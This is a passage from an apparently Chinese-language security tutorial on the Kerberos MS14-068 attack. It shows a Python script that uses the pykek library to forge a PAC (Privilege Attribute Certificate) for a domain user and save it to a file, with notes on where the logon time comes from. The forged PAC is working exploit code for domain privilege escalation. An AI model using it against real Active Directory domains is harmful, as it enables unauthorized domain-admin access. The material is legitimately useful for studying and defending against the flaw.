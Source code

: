 后续kerberos测试工具会加入制作PAC的功能，现在暂时不支持，我们直接利用pykek的代码来生成下，跟ms14068.py的同一文件夹底下，新建makepac.py,代码如下
```python
from kek.pac import build_pac
from kek.util import  gt2epoch
from kek.krb5 import AD_WIN2K_PAC,AuthorizationData,AD_IF_RELEVANT
from pyasn1.codec.der.encoder import encode
if __name__ == '__main__':
    user_realm = "0day.org" #改成自己的
    user_name = "jack" #改成自己的
    user_sid = "S-1-5-21-1812960810-2335050734-3517558805-1133" #改成自己的
    # logon_time = gt2epoch(str(as_rep_enc['authtime']))
    logon_time = gt2epoch('20191112101422Z')
    print(logon_time)
    authorization_data = (AD_WIN2K_PAC, build_pac(user_realm, user_name, user_sid, logon_time))
    ad1 = AuthorizationData()
    ad1[0] = None
    ad1[0]['ad-type'] = authorization_data[0]
    ad1[0]['ad-data'] = authorization_data[1]
    ad = AuthorizationData()
    ad[0] = None
    ad[0]['ad-type'] = AD_IF_RELEVANT
    ad[0]['ad-data'] = encode(ad1)
    data =  encode(ad)
    with open("jack.pac","wb") as f:
        f.write(data)
```

注意这里的logon_time来自于第一步中生成的AS_REP的enc_part解密后的的authtime，在工具里面右键复制就行

![image-20191112182753255](img/PAC_ANQUANKE/image-20191112182753255.png)

